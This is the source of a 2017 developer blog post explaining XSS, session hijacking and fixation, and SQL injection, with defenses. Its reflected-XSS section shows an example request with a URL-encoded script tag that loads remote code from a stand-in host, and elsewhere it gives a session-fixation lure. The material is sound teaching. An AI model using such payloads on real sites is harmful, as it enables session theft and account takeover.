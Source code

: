 ```yaml
---
layout: post
title:  "Understanding Web Application Security"
date:   2017-09-13 09:39:37 +0300
description: "
There are quite a lot of developers that when it comes to web application security they rely on whatever framework they are using to take care of that for them, but don't really have an understanding of what's happening behind the scenes. Web application security is quite a complex topic, we will be covering: 1. Cross-site scripting, also called XSS scripting, 2. Session hijacking, 3. SQL Injection. Both cross-site scripting and SQL injection are cases of code injection...
"
icon: "lock.png"
categories:
---
```

I can testify that a lot of people confined in me they considered doing this (including yours truly) under the frustration of the bi-monthly administrative policies that mandated we change our workstation password:

![image-title-here](/images/my-password.jpg){:class="img-responsive"}

This sort of thing happens more than you would imagine—what a lot of people don't know is that hackers rely a lot on social engineering to gain access to systems. Mitnick was famous for calling in, pretending to be somebody he wasn't and asking for somebody's password in order to "perform some maintainance".

## Phishing
If you've followed the US 2016 election cycle news, you might have heard that John Podesta was hacked. We was actually the victim of a *phising* scam whereby he received an email made to look like an email from Google (he was using Gmail) that informed him that he needed to change his password because unauthorized access to his account was detected. He fell for it, clicked on the link which redirected him to a page that looked like a Google page (he didn't pay attention to the URL it seems), and he entered his old and *supposedly* new credentials.

*But this is a scam, it's not what I wanted to talk about, because YOU as a developer cannot do anything about it. I actually want to talk about REAL  vulnerabilities in the software and how they can be addressed, which means understanding the vectors attackers have at their disposal.*

There are quite a lot of developers that when it comes to web application security they rely on whatever framework they are using to take care of that for them, but don't really have an understanding of what's happening behind the scenes. Web application security is quite a complex topic, we will be covering:

1. Cross-site scripting, also called XSS scripting

2. Session hijacking

3. SQL injection

Both XSS and SQL Injection are cases of *code injection*.

## Cross-Site Scripting
XSS refers to a vulnerabity where an attacker is able to "inject" Javascript code that will be run by the application. In my previous article, I've discussed the [same-origin](http://achiral.io/cors-made-simple) policy concept at length which states that if content from one site is granted permission to access resources on a system, then any content from that site will share these permissions, while content from another site will have to be granted permissions separately. 

<i>A lot of people think that SOP prevents XSS attacks. This is <b>not the case.</b></i>

A typical example of XSS is *persistent cross-site scripting*. If a page isn't properly *sanitizing* the user input (a field in a for, for example), a user could actually type in valid Javascript code, which is going to be saved by the application in its database and be subsequently rendered everytime it displays a page. Imagine you have a page that is visible to multiple users (such as a product page) which allows for users to add comments. If the page is not escaping user input, it is possible for a malicious user to write actual an script block, which will then be rendered to all users as part of the page HTML. The Javascript code has access to the cookies of that user and it can send that information to the a attacker.

![image-title-here](/images/attack.gif){:class="img-responsive"}

An alternative is the *reflected* (or non-persistent) XSS atack, whereby the user's input is not stored in the database, but returned back in the same way it was inputed. It works like this: say you have a page that allows you to search for products. The user types some text in the search box and clicks the search button which sends a GET request to the server.

<pre>
GET http://www.onlineshop.com?search=something
</pre>

If the site finds something, it returns a list of results, but if it doesn't, it's going to say

*Your search, 'something', returned no results.*

... which is just the original, unaltered string. A crafty attacker might see this vulnerability and might send an email to the user asking him to click on a link which for the search term, contains some nefarious script block. If the user clicks on the link (which is likely because most people don't hover on links to see where they lead to), the application server won't be able to find any result, and will return with a *not found* page containing the script rendered directly on the page. 

<pre>
GET http://www.onlineshop.com?
  search=%3Cscript%2520src%3D%22http%3A%2F%2Fsomesite.com%2Fscript.js%22%3E%3C%2Fscript%3E
</pre>

This script can then hijack the session cookie, like in the previous example.

What can we do about it? Actually two things:

1. Validate inputs: this means checking that the user didn't try to input any funky stuff and warning him if this is the case.
2. Sanitize outputs: everything that's rendered to the bage must be HTML escaped. This means that script blocks will be displayed as text, and won't be part of the DOM, and thus executed.

If you are developing with Node / Express, there are plenty of packages to help you safeguard against XSS attacks, such as [helmet](https://www.npmjs.com/package/helmet) or [xssfilter](https://www.npmjs.com/package/xssfilter) etc.

## Session Hijacking
Most web applications use a session mechanism which allows the server hosting the web application to know which user is making a specific request. Sessions usually involve authenticating the user, creating some sort of *session_id* (usually a string) and setting a cookie with that value on the user's browser. Session hijacking is a way of getting to know that string.

One way to gain access to it is, as I mentioned, cross-site scripting. Another typical way of gaining access to that cookie is by sniffing packets. Since browsers send the cookies asociated with a domain for every request, somebody sniffing traffic would be able to see also the value of the session cookie. A typical way to sniff traffic is to set up an unencrypted wifi hot spot in a public place, and monitor the traffic of the people connecting to it. Does this mean I cannot use my online banking when I am connected to a public hotspot? No, because if the website uses SSL for all requests, the contents of the traffic won't be intelligible to a man-in-the-middle, and usually major sites like Facebook / Twitter, online banking etc. are pretty well secured. There are however plenty of smaller poorly written sites that only use SSL for the login page, and then pass the session cookie unencrypted to other pages.

Another way to gain access to a user's session is to get that user to install a mallware on his/hers computer. Since browsers usually store cookies on disk, that mallware would be able to access the cookie if it knows where to look for it. 

A yet another way of acomplishing session hijacking is *session fixation*. There are plenty of sites that accept a session ID in the URL, such as:

<pre>
http://www.website.com?sid=asb1sadasdasdan23123
</pre>

The reason why they do it is because a lot of users turn of their cookies, ironically, for security reasons. This however would open them up to scams, like somebody sending them an email which says:

<blockquote>
Hey, click on http://www.website.com?sid=asb1sadasdasdan23123, and enter credit card and address information to receive a free bonus on your order.
</blockquote>

Since the attacker knows the session id, he/she can also log to that page and see the information inputed by the user.

## SQL Injection
And last (in our article), but certainly not least, we have SQL injection. I think most of us remember this:

![image-title-here](/images/exploit.png){:class="img-responsive"}

For SQL injection to work, you'd have to be writing your SQL queries using string interpolation / concatenation.

<script src="https://gist.github.com/toaderflorin/e842b81f3e4d1fef85087134717a1571.js"></script>

As you can see, the text fits nicely in the query. The way you get around this is by using parameters, which are supported by all database systems.